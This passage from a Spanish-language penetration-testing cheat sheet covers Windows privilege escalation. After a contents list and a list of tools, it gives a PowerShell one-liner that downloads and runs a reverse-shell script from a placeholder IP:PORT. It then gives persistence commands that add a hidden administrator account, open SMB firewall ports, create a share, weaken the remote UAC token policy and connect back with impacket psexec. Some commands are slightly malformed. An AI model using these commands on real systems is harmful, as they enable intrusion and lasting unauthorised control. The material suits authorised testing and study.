 # Windows

* [Tips & Tricks]
* [Tools]
* [Migrando proceso]
* [Persistencia]
* [DLL Hijacking]
* [Binpath]
* [Unquothed service path]
* [Service registry permissions]
* [Executable file]
* [Registry autoruns]
* [Allways install Elevated]
* [Credenciales en memoria]
* [Credenciales en registro]
* [Credenciales en archivos de configuracion]
* [Credenciales en webconfig]
* [Credenciales en repair/sam]
* [Tareas programadas]
* [Token impersionation]
* [Token impersionation print spoofer]
* [Bypassing]

## Tips & Tricks

1. Cuando tenes una shell, es mejor migrar a un proceso
que sea de la misma arquitectura de la pc donde estamos para que
no existan errores

## Tools

* [Powershell Empire]
* [PowerUp]
* [Seatbelt]
* [Winpeas]
* [Nishang]
* [windows-privesc-check]
* [windowsenum]
* [Sherlock]
* [Watson]
* [WinEnum]
* [Windows-exploit-suggester]

## Migrando proceso

```shell
Is64BitOperatingSystem
#True

Is64BitProcess
#False #necesitamos migrar
#Podemos mandar la shell desde la ruta nativa del sistema con el path absoluto.
#Por ejemplo para tomar una reverse shell desde la windows:
C:\Windows\SysNative\WindowsPowershell\v1.0powershell IEX(New-Object New.WebClient).downloadString('http://IP:PORT/shell.ps1')
#esto te da el proceso de 64 bits ya
```

## Persistencia

```shell
net user nombreusuario password /add
net localgroup Administrators nombreusuario /add

#si no está abierto el puerto de SAMBA hay que abrirlo para poder 
#generar esa persistencia, y poder mandar comandos desde nuestro 
#host atacante Creamos la regla en el firewall

netsh advfirewall firewall add rule protocol=TCP dir=in localport=445 action=allow

netsh advfirewall firewall add rule protocol=TCP dir=out localport=445 action=allow

#creamos un nuevo recurso compartido
net share attacker_folder=C:\Windows\tmp /GRANT:Administrators,FULL

#cambiamos la policy
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

#y desde el host con el paquete de impacket
$impacket/examples/psexec.py WORKGROUP/nombreusuario:password\@R_IP cmd.exe
##